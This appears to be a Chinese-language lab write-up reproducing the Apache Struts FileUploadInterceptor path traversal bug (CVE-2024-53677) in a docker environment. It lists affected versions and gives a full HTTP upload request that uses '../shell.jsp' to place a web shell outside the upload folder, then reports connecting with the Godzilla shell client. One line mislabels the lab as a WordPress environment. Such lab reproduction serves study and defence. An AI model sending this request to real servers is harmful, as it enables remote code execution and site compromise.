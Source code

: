 # Apache Struts FileUploadInterceptor 文件上传漏洞（CVE-2024-53677）

Apache Struts 的文件上传逻辑中存在漏洞，若代码中使用了FileUploadInterceptor，当进行文件上传时，攻击者可能构造恶意请求利用目录遍历等上传文件至其他目录。如果成功利用，攻击者可能能够执行远程代码、获取敏感数据、破坏网站内容或进行其他恶意活动。

## 测试环境

执行如下命令启动一个WordPress漏洞环境：

```
docker compose up -d
```

访问 http://127.0.0.1:8080/upload.action 发现文件上传接口

![1](1.png)

环境搭建好后首先随意上传一张图片，这一步的步骤是创建一个uploads文件夹，方便后续漏洞利用。

![2](2.png)

## 影响版本

- Struts 2.0.0 - Struts 2.3.37
- Struts 2.5.0- Struts 2.5.33
- Struts 6.0.0- Struts 6.3.0.2

## 漏洞复现

> [!NOTE]
>
> 首先需要明确一点，为了简化本次漏洞复现的复杂度，本次没有对文件上传的后缀进行校验。这就意味着如果你直接上传恶意代码到uploads文件夹也是可以成功的。但为了学习了解这个漏洞，你需要做的是把恶意文件上传到uploads的上一级目录即ROOT目录下。

```http
POST /upload.action HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=---------------------------10646135771952845599584984154
Content-Length: 363

-----------------------------10646135771952845599584984154
Content-Disposition: form-data; name="Upload"; filename="test.txt"
Content-Type: text/plain

PAYLOAD
-----------------------------10646135771952845599584984154
Content-Disposition: form-data; name="top.UploadFileName";

../shell.jsp
-----------------------------10646135771952845599584984154--
```

![3](3.png)

成功连上哥斯拉

![4](4.png)
